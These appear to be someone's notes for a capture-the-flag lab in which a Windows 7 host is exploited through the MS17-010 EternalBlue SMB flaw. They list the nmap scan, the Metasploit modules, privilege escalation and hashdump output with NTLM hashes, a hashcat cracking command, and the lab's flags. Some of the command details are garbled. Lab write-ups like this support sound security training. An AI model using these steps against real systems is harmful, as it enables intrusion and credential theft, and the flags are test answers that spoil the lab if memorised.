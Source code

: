 <pre>
Machine IP: 10.10.255.187

Enum:
    nmap -sV -sC -oA nmap/blue 10.10.255.187
Open Ports:
    135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
Vuln port->     445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service 
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows





exploits :
exploit/windows/smb/ms17_010_eternalblue
post/multi/manage/shell_to_meterpreter


Meterpreter > getsystem to get administrator perms


Meterpreter > hashdump to get hashes and user names
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::


Crack the hash with hashcat:
Administrator:aad3b435b51404eeaad3b435b51404ee
Guest:aad3b435b51404eeaad3b435b51404ee
Jon:aad3b435b51404eeaad3b435b51404ee 
All this hashes to hashes.txt and
-> hashcat --username --show -a-0 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt

Flags:
access_the_machine 
sam_database_elevated_access
admin_documents_can_be_valuable 
Find all flags:
dir *flag*.txt /s

Go with cd and type flags :D
</pre>

